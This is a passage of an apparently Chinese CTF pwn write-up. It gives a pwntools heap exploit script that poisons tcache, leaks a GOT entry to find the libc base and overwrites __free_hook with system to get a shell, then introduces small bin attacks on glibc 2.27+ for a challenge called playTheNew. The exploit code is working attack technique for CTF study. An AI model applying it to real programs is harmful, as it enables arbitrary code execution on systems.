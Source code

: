 ```python
new(0x28,'zzz') # 0
new(0x100,'aaa') # 1
new(0x100,'aaa') # 1
delete(2)
delete(1)
delete(0)
new(0x28,'a'*0x28)
delete(1)
new(0xf0,p64(0x4040AC))#0x4040AC num
new(0x100,'aaa')
# new(0x100,p32(0) + p64(0) * 2 + p64(0xffffff) * 4 + p64(0x404018)+p64(0)*5)
new(0x100,p32(0) + p64(0) * 6 + p64(0x404018)+p64(0)*5)#  覆盖chunk数量为0 0x404018 got地址来leak
show(0)
leak = u64(p.recv(6) + b'\x00'*2) - 645200
log.info('leak ' + hex(leak))
new(0x28,'zzz') # 0
new(0x100,'aaa') # 1
new(0x100,'aaa') # 1
delete(3)
delete(2)
delete(1)
new(0x28,'/bin/sh\x00' + 'a'*0x20)
delete(2)
new(0xf0,p64(leak + libc.symbols['__free_hook']))
new(0x100,p64(leak + libc.symbols['__free_hook']))
new(0x100,p64(leak + libc.symbols['system']))
delete(1)
p.interactive()
```

# glibc2.27以上small bin attack

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104537022-d50a3f4d-8ed5-490e-b220-0de1fe202270.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104554308-d174c9a5-b355-402f-b66e-b1711f5ae4d7.png)

## 例题playTheNew

### 逆向分析

首先申请一个内存区域：

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104679371-f2140d49-278f-4db5-8317-db7630fed4b9.png)

在init_array发现：

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104731264-114b49cc-b311-4209-b669-3c06ad11847f.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104741181-ed2b1f58-2f45-441f-9cc6-b27d2b24b05d.png)
